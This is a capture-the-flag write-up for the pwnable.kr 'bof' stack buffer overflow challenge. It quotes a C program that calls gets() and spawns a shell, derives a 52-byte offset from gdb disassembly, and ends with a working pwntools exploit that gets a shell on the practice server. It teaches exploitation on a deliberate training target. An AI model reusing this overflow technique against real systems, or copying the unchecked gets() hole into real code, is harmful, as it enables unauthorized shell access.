 ## Description
bof - 5 pt [writeup]

> Nana told me that buffer overflow is one of the most common software vulnerability. 
> Is that true?
>
> Download : http://pwnable.kr/bin/bof
> Download : http://pwnable.kr/bin/bof.c
>
> Running at : nc pwnable.kr 9000

## Solution
We are given a binary file `bof`, and it's source code `bof.c`. Let's take a look at the source code:
### bof.c
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
As we can see, when the program is executed regularly, it calls `func` with the argument `0xdeadbeef`, which is then compared to `0xcafebabe`.\
Because the arguments are different, the program will print `Nah..` and exit.
We need to find a way to make the program call `system("/bin/sh")` instead of `printf("Nah..")`.

We can see that the program calls `gets` to read input from the user.\
`gets` doesn't check the length of the input, so we can overflow the buffer `overflowme` and overwrite the `key` variable, which then will be compared to `0xcafebabe`.
Now we just need to find out how much we need to pad our input with to overwrite the `key` variable with `0xcafebabe`.

```shell
$ cyclic(64)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa'
$ gdb bof
pwndbg> disassemble func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   ebp
   0x5655562d <+1>:     mov    ebp,esp
   0x5655562f <+3>:     sub    esp,0x48
   ....
   0x56555649 <+29>:    lea    eax,[ebp-0x2c]
   0x5655564c <+32>:    mov    DWORD PTR [esp],eax
   0x5655564f <+35>:    call   0xf7de48b0 <_IO_gets> # gets is called here
   0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe # key is compared to 0xcafebabe here
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   ....
   0x56555688 <+92>:    leave  
   0x56555689 <+93>:    ret    
```
We can see that the `key` variable is located at `ebp+0x8`, and the `overflowme` buffer is located at `ebp-0x2c`.\
Meaning that we need to pad our input with `0x2c+0x8`, which is `52` bytes, to overwrite the `key` variable.

Let's try it out:
```python
from pwn import *

payl = b"\x61" * 52 + b"\xbe\xba\xfe\xca"

shell = remote("pwnable.kr",9000)
shell.send(payl)
shell.interactive()
```
and it works!
```shell
$ python3 exp.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ cat flag
[ .......... ]
```
